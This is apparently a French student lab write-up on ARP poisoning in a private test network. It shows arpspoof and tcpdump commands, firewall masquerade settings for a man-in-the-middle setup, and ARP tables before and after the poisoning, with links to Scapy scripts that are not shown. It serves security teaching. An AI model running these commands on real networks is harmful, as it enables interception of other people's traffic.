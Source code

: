 # 🌞 Empoisonnez la table ARP de node2.tp1.my  
Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```
Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```

Ouvrir un autre terminal dans node1.tp1.my  
```bash
sudo arpspoof -t 10.1.1.101 10.1.1.253
```

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  
🦈 Capture ARP Spoof --> [arp_spoof_1.pcap](arp_spoof_1.pcap)  


# 🌞 Ecrire un script Scapy qui fait le travail de arpspoof  
Le [script python](./arp_spoof.py)  
🦈 Capture ARP Spoof Scapy --> [arp_spoof_2.pcap](./arp_spoof_2.pcap)  

# 🌞 Mettre en place un MITM ARP  
```bash
sudo firewall-cmd --add-masquerade --permanent  
sudo firewall-cmd --reload  
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:05   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253               ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```  

Ouvrir un terminal dans node1.tp1.my  
Le [script python](./arp_spoof_2.py)  
🦈 Capture ARP Spoof --> [arp_mitm_1.pcap](./arp_mitm_1.pcap)  
  
```bash
sudo python arp_mitm_1.py
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether  00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```